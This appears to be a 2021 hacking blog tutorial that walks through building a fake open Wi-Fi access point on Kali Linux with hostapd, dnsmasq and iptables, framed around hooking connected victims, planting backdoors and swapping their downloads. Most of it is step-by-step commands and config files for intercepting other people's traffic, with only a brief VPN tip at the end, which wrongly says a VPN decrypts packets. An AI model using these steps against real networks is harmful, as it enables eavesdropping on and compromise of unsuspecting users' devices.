 ```yaml
---
title: 'How To Start a Fake Access Point (Fake WIFI)?'
date: '2021-03-15'
tags: ['Networking', 'Hacking', 'guide']
featured: false
excerpt: 'If you are in a random place and happened to be connected to an open network, it doesnt matter what device you are connected with, your data will be visible to the person who is controlling the access point.'
image: '/images/blog/05/01.png'
---
```


### How dangerous can an access point be?

If you are in a random place and happened to be connected to an open network, it doesn't matter what device you are connected with, your data will be visible to the person who is controlling the access point. Not only that, but the person in control can have a complete control over your device by hooking you with a malicious web page or a backdoor.

## How can you control the devices that are connected to your fake access point?

There are many methods to do that. You can redirect the connected user to a specific malicious website that you also control and hook their devices. Furthermore, you can run and execute backdoors by using python MITM scripts on the connected devices. You also can replace the download files that the connected users requests on the fly without being suspicious, we will be doing that in the next article.

- Lets take a look on how to start a fake AP…

#### STEP 1:

- First we will need to update Kali Linux to the latest version and install the required packages.

```
$ sudo apt-get update
$ sudo apt-get install hostapd dnsmasq apache2
```

#### STEP 2:

We need to put the wireless card in monitor mode to allow us to sniff the packets in and around the network. You can use this method:

```
$ ifconfig wlan0 down
$ iwconfig wlan0 mode monitor
$ ifconfig wlan0 up
```

- Or if that didn't work, you can use this method instead:

```
$ airmon-ng start wlan0
```

_Note_ that the wireless adapter's name has changed from wlan0 to wlan0mon, so we need to use the new given name which is wlan0mon.

#### STEP 3:

To make things organized and easier to work with, we will make a new directory in root and call it "FAP" or fake access point.

```
$ mkdir /root/fap
$ cd /root/fap
```

- · mkdir: command for making a new directory in linux.
- · cd: command to navigate to a specific directory, in this case its fap.

#### STEP 4:

Once we are in `/root/fap` that we created, we will now setup a new hostapd configuration file and write instructions inside. Hostapd (Host access point daemon) is a software access point that lets the user to use his/her wireless adapter to broadcast several access points at the same time.

```
$ nano hostapd.conf
```

- · nano: is a command line text editor included in most Linux installations.
- · hostapd.conf: is the name of the configuration file that we created.

- Now inside hostapd.conf, we need to setup instruction orders for it.

```
$ interface=wlan0mon
$ driver=nl80211
$ ssid=[Name of the Wifi]
$ hw_mode=g
$ channel=[Channel number]
$ macaddr_acl=0
$ ignore_broadcast_ssid=0
```

- After writing these instructions, press CTRL+X, then Y, then ENTER. Now we are all set for hostapd.conf.

- · interface: The name of the wireless adapter that we are using in monitor mode.
- · driver: The supported driver for hostapd.
- · ssid: The broadcasted Wifi name.
- · hw_mode=g : Simply instruct it to use 2.4GHz band.
- · channel: The channel number to use for the fake access point.
- · macaddr_acl=0: Tells hostapd to not use MAC filtering. [macaddr_acl=1] tells it to use MAC filtering.
- · ignore_broadcast_ssid=0 : To make the fake access point visible and not hidden.

#### STEP 5:

Start the fake access point by doing:

```
$ hostapd hostapd.conf
```

You will notice that our access point will appear as an open Wifi network. Now open a new terminal window without closing the previous one. In the new terminal window, navigate back to the fap directory by doing:

```
$ cd /root/fap
```

#### STEP 6:

We will be using dnsmasq for this step. Dnsmasq is a Dynamic Host Configuration Protocol (DHCP) server that is used to resolve dns requests from or to a machine and also acts as DHCP server to allocate IP addresses to the clients. It is fast and serves a great purpose that fits our needs. We will create a configuration file for dnsmasq and put some instructions in it, just like what we did previously with hostapd. To create the file:

```
$ nano dnsmasq.conf
```

Add these instructions inside:

```
$ interface=wlan0mon
$ dhcp-range=192.168.1.2, 192.168.1.30, 255.255.255.0, 12h
$ dhcp-option=3, 192.168.1.1
$ dhcp-option=6, 192.168.1.1
$ server=8.8.8.8
$ log-queries
$ log-dhcp
$ listen-address=127.0.0.1
```

- · dhcp-range: IP address range for the connected network clients. 12h is the amount of hours until the lease expires.
- · dhcp-option=3: Gateway IP for the networks.
- · dhcp-option=6: For DNS Server followed by IP address
- · server: DNS server's address
- · log-queries: Log the results of DNS queries handled by dnsmasq.
- · log-dhcp: Log all the options sent to DHCP clients and the tags used to determine them.
- · listen-address: Links the DHCP to the local IP address which is 127.0.0.1.

Press CTRL+X, then Y, then ENTER. Now we are all set for dnsmasq.conf.

#### STEP 7:

Now we need to assign the interface a network gateway and netmask and then add the routing table.

```
$ ifconfig wlan0mon up 192.168.1.1 netmask 255.255.255.0
$ route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
```

Start the DNS server by doing:

```
$ dnsmasq -C dnsmasq.conf -d
```

- · dnsmasq -C: Specifies a different configuration file.
- · -d : Tells it to keep the user id without changing it.

Open a new terminal window to continue with the next step.

#### STEP 8:

To provide the users with internet access, we need to forward traffic from eth0, the virtual wireless adapter that is connected to the internet, to wlan0mon. This will help you perform various attacks that can give you complete access to the user's device. If you don't want the users to have internet access, skip this step.

```
$ iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
$ iptables --append FORWARD --in-interface wlan0mon -j ACCEPT
```

- · First command: Interface name that is used to forward traffic from.
- · Second command: Interface name to receive the packets or the interface that is being forwarded to.

Now execute this command to enable IP Forwarding:

```
$ echo 1 > /proc/sys/net/ipv4/ip_forward
```

#### STEP 9:

Test out your fake access point by playing the victim. Connect to your network and access any website you like, you should be able to see all the packets transmitted on the fly in the terminal.

Hostapd will show the mac address as soon as a device has connected to the network.

On the other terminal window where dnsmasq is running, you will find out what the device is trying to access in details. For this example, the user is accessing Facebook.com

For this example, the user is accessing Facebook.com and so on.

## Closure:

This shows how powerful a fake access point can be. Once you got your targets connected, you will have many attacks available that could eventually control the user's device.

Setting up a fake access point can teach you the security of the network, and how a network typically works. It will also show you what the person in control of the network can do with the connected devices. As we saw previously, you can pretty much have access to all the packets that the user's device is requesting.

If you happen to be connected to a public and unsecure network, A simple way to solve and protect yourself is to use a reputable VPN. A VPN will decrypt the packets making it impossible for the person controlling the network from seeing what the user is accessing.
